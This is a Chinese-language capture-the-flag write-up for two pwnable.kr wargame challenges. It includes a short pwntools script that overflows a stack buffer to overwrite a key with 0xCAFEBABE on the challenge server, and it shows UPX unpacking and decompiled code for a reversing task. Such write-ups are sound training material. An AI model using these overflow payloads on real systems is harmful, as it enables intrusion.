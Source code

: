 
很明显的栈溢出，将key的值覆盖为`0xCAFEBABE`就可以了

  

**payload**

  

from pwn import *
context.log_level='debug'

p=remote("pwnable.kr",9000)
#print p.recvline()
payload='a'*52
payload+=p64(0xCAFEBABE)
p.sendline(payload)

p.interactive()

  

## flag

  

### 题目描述

  

虽然在pwnable上面，但是是一道逆向题

  

Papa brought me a packed present! let's open it.

  

Download : [http://pwnable.kr/bin/flag](http://pwnable.kr/bin/flag)

  

This is reversing task. all you need is binary

  

### 题目解析

  

刚拿到就直接放进了ida中，结果只显示4个函数，并且有的还无法F5。后来看了wp才知道程序被upx压缩过了

  

`upx -d flag`解压缩，ida分析程序

  

int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *dest; // ST08_8

  puts((__int64)"I will malloc() and strcpy the flag there. take it.");
  dest = (char *)malloc(100LL);
  strcpy(dest, flag);
  return 0;
}
